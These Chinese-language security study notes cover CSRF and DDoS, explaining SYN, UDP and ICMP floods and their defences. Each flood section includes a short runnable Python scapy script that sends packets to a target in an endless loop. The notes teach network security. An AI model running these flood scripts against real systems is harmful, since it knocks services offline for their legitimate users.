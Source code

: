# CSRF漏洞
跨站请求伪造（Cross-Site Request Forgery，CSRF），也被称为 one-click attack 或者 session riding，通常缩写为 CSRF 或者 XSRF，是一种挟制用户在当前已登录的 Web 应用程序上执行非本意的操作的攻击方法。

例如，在一个银行网站上，攻击者诱导用户点击一个恶意链接，这个链接会向银行网站发送一个转账请求，由于用户已经在银行网站登录，银行网站会认为这个请求是用户发起的，从而执行转账操作。

CSRF 攻击可以通过多种方式进行防范，比如在请求中添加验证码、使用一次性令牌等。
# DDoS攻击
分布式拒绝服务攻击（Distributed Denial of Service，简称 DDoS），是指处于不同位置的多个攻击者同时向一个或数个目标发动攻击，或者一个攻击者控制了位于不同位置的多台机器并利用这些机器对受害者同时实施攻击。由于攻击的发出点是分布在不同地方的，这类攻击称为分布式拒绝服务攻击，其中的攻击者可以有多个。

DDoS 攻击会导致目标服务器或网络资源被大量的请求淹没，从而无法正常为合法用户提供服务。常见的 DDoS 攻击方式有 SYN Flood、UDP Flood、ICMP Flood 等。

为了应对 DDoS 攻击，通常会采取多种防护措施，如使用防火墙、入侵检测系统、流量清洗设备等，同时也可以通过优化网络架构、增加带宽等方式来提高系统的抗攻击能力。
## SYN flood 攻击
SYN Flood 是一种常见的 DDoS（分布式拒绝服务）攻击方式。它利用了 TCP 协议的三次握手过程，通过发送大量的 SYN 请求包来消耗目标系统的资源，从而使其无法正常响应合法用户的请求。
### SYN Flood 攻击的工作原理
* 发送 SYN 包：
攻击者向目标服务器发送大量的 TCP SYN 包，这些包请求建立新的连接。
* 服务器响应 SYN-ACK 包：
目标服务器收到 SYN 包后，会为每个请求分配资源，并返回一个 SYN-ACK 包，表示同意建立连接。
* 未完成的连接：
攻击者不会发送预期的 ACK 包来完成三次握手过程，导致服务器的连接资源被占用。
* 资源耗尽：
由于大量的未完成连接，服务器的资源被耗尽，无法处理新的合法连接请求。
### 防御 SYN Flood 攻击的方法
* SYN Cookies：
一种技术，通过在 SYN-ACK 包中嵌入加密的序列号来验证连接请求，避免分配资源直到握手完成。
* 增加连接队列大小：
增加服务器的连接队列大小，以便能够处理更多的未完成连接。
* 防火墙和入侵检测系统：
使用防火墙和入侵检测系统来检测和过滤恶意流量。
* 流量清洗：
使用流量清洗设备来过滤掉恶意流量，确保合法流量能够正常到达服务器。
### 示例代码
以下是一个简单的 Python 示例，展示了如何使用 scapy 库发送 SYN Flood 攻击（仅供学习和研究，切勿用于非法用途）：
```python
from scapy.all import *

def syn_flood(target_ip, target_port):
    ip = IP(dst=target_ip)
    tcp = TCP(dport=target_port, flags='S')
    raw = Raw(b"X"*1024)
    p = ip / tcp / raw
    send(p, loop=1, verbose=0)

# 示例
target_ip = "192.168.1.1"
target_port = 80
syn_flood(target_ip, target_port)
```
## UDP Flood攻击
UDP Flood 是一种常见的 DDoS（分布式拒绝服务）攻击方式。它通过向目标服务器发送大量的 UDP 数据包，消耗目标系统的带宽和资源，从而使其无法正常响应合法用户的请求。
### UDP Flood 攻击的工作原理
* 发送大量 UDP 数据包：
攻击者向目标服务器的随机端口发送大量的 UDP 数据包。
* 目标服务器处理请求：
目标服务器收到 UDP 数据包后，会尝试处理这些请求，并检查是否有对应的应用程序在监听这些端口。
* 资源消耗：
由于大多数端口没有应用程序在监听，目标服务器会返回大量的 ICMP 不可达消息（Port Unreachable），从而消耗其带宽和计算资源。
* 服务中断：
在大量的 UDP 数据包攻击下，目标服务器的资源被耗尽，无法处理正常的请求，导致服务中断。
### 防御 UDP Flood 攻击的方法
* 限制 UDP 流量：
在防火墙或路由器上设置规则，限制进入网络的 UDP 流量。
* 流量清洗：
使用流量清洗设备来过滤掉恶意的 UDP 流量，确保合法流量能够正常到达服务器。
* 入侵检测系统（IDS）：
使用入侵检测系统来监控网络流量，检测并阻止异常的 UDP 流量。
* 增加带宽：
增加网络带宽，以提高系统的抗攻击能力。
### 示例代码
以下是一个简单的 Python 示例，展示了如何使用 scapy 库发送 UDP Flood 攻击（仅供学习和研究，切勿用于非法用途）
```python
from scapy.all import *

def udp_flood(target_ip, target_port):
    ip = IP(dst=target_ip)
    udp = UDP(dport=target_port)
    raw = Raw(b"X"*1024)
    p = ip / udp / raw
    send(p, loop=1, verbose=0)

# 示例
target_ip = "192.168.1.1"
target_port = 80
udp_flood(target_ip, target_port)
```
## ICMP Flood 攻击
ICMP Flood 是一种常见的 DDoS（分布式拒绝服务）攻击方式。它通过向目标服务器发送大量的 ICMP 数据包（通常是 ICMP Echo 请求包，也称为 Ping 包），消耗目标系统的带宽和资源，从而使其无法正常响应合法用户的请求。
### ICMP Flood 攻击的工作原理
* 发送大量 ICMP 数据包：
攻击者向目标服务器发送大量的 ICMP Echo 请求包。
* 目标服务器处理请求：
目标服务器收到 ICMP Echo 请求包后，会尝试响应这些请求，返回 ICMP Echo 回复包。
* 资源消耗：
由于大量的 ICMP Echo 请求包，目标服务器的带宽和计算资源被大量消耗。
* 服务中断：
在大量的 ICMP 数据包攻击下，目标服务器的资源被耗尽，无法处理正常的请求，导致服务中断。
### 防御 ICMP Flood 攻击的方法
* 限制 ICMP 流量：
在防火墙或路由器上设置规则，限制进入网络的 ICMP 流量。
* 流量清洗：
使用流量清洗设备来过滤掉恶意的 ICMP 流量，确保合法流量能够正常到达服务器。
* 入侵检测系统（IDS）：
使用入侵检测系统来监控网络流量，检测并阻止异常的 ICMP 流量。
* 增加带宽：
增加网络带宽，以提高系统的抗攻击能力。
### 示例代码
以下是一个简单的 Python 示例，展示了如何使用 scapy 库发送 ICMP Flood 攻击（仅供学习和研究，切勿用于非法用途）：
```python
from scapy.all import *

def icmp_flood(target_ip):
    ip = IP(dst=target_ip)
    icmp = ICMP()
    raw = Raw(b"X"*1024)
    p = ip / icmp / raw
    send(p, loop=1, verbose=0)

# 示例
target_ip = "192.168.1.1"
icmp_flood(target_ip)
```